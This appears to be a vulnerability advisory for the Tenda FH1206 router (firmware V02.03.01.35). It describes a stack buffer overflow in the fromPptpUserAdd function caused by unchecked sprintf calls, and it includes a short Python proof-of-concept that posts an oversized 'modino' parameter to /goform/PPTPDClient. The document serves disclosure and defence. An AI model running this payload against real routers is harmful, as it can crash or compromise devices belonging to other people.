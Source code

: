 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromPptpUserAdd` function. This function accepts the `modino`  parameter from a POST request. The statement ` sprintf(v20, "vpn.ser.pptpuser%s", v6)`and` sprintf(v16, "1;%s;%s;%s;%s;%s;%s;%s", v6, v11, v17, v10, v8, v7, v5);` leads to a buffer overflow. The user-supplied `modino` can exceed the capacity of the `v16 `array and`v20`array , thus triggering this security vulnerability.

![image-20240802202434781](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802202434781.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/PPTPDClient"
payload = b"a"*1000

data = {"modino": payload, "flag": "0"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)